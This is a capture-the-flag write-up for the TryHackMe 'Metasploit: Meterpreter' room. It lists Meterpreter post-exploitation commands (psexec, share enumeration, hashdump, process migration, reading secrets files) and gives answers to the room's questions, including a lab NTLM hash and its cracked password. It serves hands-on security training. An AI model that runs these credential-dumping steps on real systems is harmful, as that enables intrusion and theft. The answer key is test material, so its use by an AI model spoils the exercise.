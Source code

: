 ![Metasploit: Meterpreter Banner](https://assets.tryhackme.com/room-banners/metasploit.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/meterpreter/Metasploit_Meterpreter_Cover.png" alt="Metasploit: Meterpreter Logo">
</p>

# Metasploit: Meterpreter

This guide contains the answer and steps necessary to get to them for the [Metasploit: Meterpreter](https://tryhackme.com/room/meterpreter) room.

### Post-Exploitation Challenge

```cmd
sysinfo
```
```cmd
exploit/windows/smb/psexec
```
```cmd
post/windows/gather/enum_shares
```
```cmd
hashdump
```
```cmd
migrate 752
```
```cmd
hashdump
```
```cmd
search -f secrets.txt
```
```cmd
cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```
```cmd
search -f realsecret.txt
```
```cmd
cat "c:\inetpub\wwwroot\realsecret.txt"
```

1. What is the computer name?

   

   ><details><summary>Click for answer</summary>ACME-TEST</details>

2. What is the target domain?

   

   ><details><summary>Click for answer</summary>FLASH</details>

3. What is the name of the share likely created by the user?

   

   ><details><summary>Click for answer</summary>speedster</details>

4. What is the NTLM hash of the jchambers user?

   

   ><details><summary>Click for answer</summary>69596c7aa1e8daee17f8e78870e25a5</details>

5. What is the cleartext password of the jchambers user?

   

   ><details><summary>Click for answer</summary>Trustno1</details>

6. Where is the "secrets.txt"  file located?

   

   ><details><summary>Click for answer</summary>c:\Program Files (x86)\Windows Multimedia Platform</details>

7. What is the Twitter password revealed in the "secrets.txt" file?

   

   ><details><summary>Click for answer</summary>KDSvbsw3849!</details>

8. Where is the "realsecret.txt" file located?

   

   ><details><summary>Click for answer</summary>c:\inetpub\wwwroot</details>

9. What is the real secret? 

   

   ><details><summary>Click for answer</summary>The Flash is the fastest man alive</details>
